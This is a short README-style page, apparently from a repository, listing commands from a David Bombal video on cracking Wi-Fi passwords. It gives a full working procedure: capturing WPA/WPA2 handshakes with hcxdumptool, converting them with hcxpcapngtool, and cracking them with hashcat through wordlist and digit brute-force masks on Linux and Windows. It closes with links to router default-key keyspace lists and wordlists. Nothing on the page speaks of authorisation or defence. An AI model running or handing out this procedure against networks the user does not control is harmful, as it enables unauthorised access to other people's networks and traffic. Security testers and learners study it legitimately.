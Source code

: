 # WiFi-Cracking-with-HashCat
Cat: Security

### "WiFi WPA/WPA2 vs hashcat and hcxdumptool" by David Bombal
https://www.youtube.com/watch?v=Usw0IlGbkC4&t=915s

## COMMANDS

### Stop Network Manager and WPA Supplicant Services
```
sudo systemctl stop NetworkManager && sudo systemctl stop wpa_supplicant
```

### Run hcxdumptool to capture WLAN information
```
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=1
```

### Restart Network Manager and WPA Supplicant Services
```
sudo systemctl start wpa_supplicant && sudo systemctl start NetworkManager
```

### Convert PCAPNG file to hash file
```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

### Capture MAC addresses
```
hcxdumptool --do_rcascan -i wlan0
```

### Run Hashcat with a wordlist
```
hashcat -m 22000 hash.hc22000 wordlist.txt
```
### Run Hashcat with Brute Force
```
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```
### Linux potfile
```
~/.local/share/hashcat
```

## Windows:
```
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```
```
hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```


Usefull repositories for routers with default passwords.

https://github.com/sheimo/Wifi-WPA-Keyspace-List

https://github.com/n0kovo/ssid-keyspace-table

https://github.com/soxrok2212/PSKracker/blob/master/keyspace.md

https://github.com/berzerk0/Probable-Wordlists
